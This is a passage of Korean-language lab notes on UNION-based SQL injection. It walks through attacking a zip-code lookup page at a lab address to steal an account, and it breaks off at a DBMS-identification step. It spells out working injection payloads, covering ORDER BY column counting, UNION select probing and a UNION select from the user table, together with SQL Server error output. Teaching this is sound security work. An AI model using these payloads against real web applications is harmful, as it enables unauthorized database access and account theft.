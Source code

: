 

유형 #4 UNION 구문을 이용한 호출 ==> 

1)컬럼의 개수와 데이터 타입이 동일해야한다.->정상

쿼리(우편번호 조회 쿼리) 실행을 통해서 반환되는 컬럼의 개수와 각 컬럼의 데이터 타입을 확인해야 한다.

2)공격자가 원하는 정보를 포함하고 있는테이블과 컬럼의 이름을 알고 있어야 한다. -> 외부에서 (또는 검색을 통해 확인 가능한 ) dbms의 시스템 테이블을 우선적으로 사용해야 한다.



우편번호 조회 서비스

<http://70.12.50.56:9090/zipcode.asp>?dong=하대동

⇒ select * from address where dong = '하대동'

우편번호 조회 서비스 결과에 공격자가 원하는 정보가 함께 출력되도록 입력값 조작

select * from address where dong = '하대동' UNION select * from user --'

⇒ <http://70.12.50.56:9090/zipcode.asp>?dong=하대동' UNION select * from user --

UNION 구문을 사용하기 위한 전제 조건

1. 컬럼의 개수와 데이터 타입이 동일해야 한다. ⇒ 정상 쿼리(우편번호 조회 쿼리) 실행을 통해서 반환되는 컬럼의 개수와 각 컬럼의 데이터 타입을 확인해야 한다.
2. 공격자가 원하는 정보를 포함하고 있는 테이블과 컬럼의 이름을 알고 있어야 한다. ⇒ 외부에서 (또는 검색을 통해서) 확인 가능한 DBMS의 시스템 테이블을 우선적으로 사용해야 한다.

LAB 우편번호 조회 서비스를 이용해서 해당 사이트([http://70.12.50.56:9090](http://70.12.50.56:9090/zipcode.asp))의 계정을 탈취해서 로그인해 보세요.

\#1 우편번호 조회 서비스를 통해서 반환하는 컬럼의 개수를 확인

select * from address where dong = 'a' order by 1 --' 

⇒ .../zip_code.asp?dong=a' order by 1 --

⇒ .../zip_code.asp?dong=a' order by 8 --

Microsoft OLE DB Provider for SQL Server 오류 '80040e14'

ORDER BY 위치 번호 8이(가) SELECT 목록의 항목 번호 범위를 벗어났습니다.

/zip_search.asp, 줄 21

→ 우편번호 조회 서비스를 위한 쿼리는 7개의 컬럼을 반환한다.

⇒ Error-Based SQL Injection

\#2 UNION 구문을 이용해서 숫자로 구성된 7개의 값을 출력

select * from address where dong = 'a' and 1=2 UNION select 1,2,3,4,5,6,7 --' 

⇒ .../zip_code.asp?dong=a' and 1=2 UNION select 1,2,3,4,5,6,7 --

Microsoft OLE DB Provider for SQL Server 오류 '80040e07'

varchar 값 '110-753'을(를) 데이터 형식 int(으)로 변환하지 못했습니다.

/zip_search.asp, 줄 21

\#3 UNION 구문을 이용해서 해당 DBMS의 종류를 확인
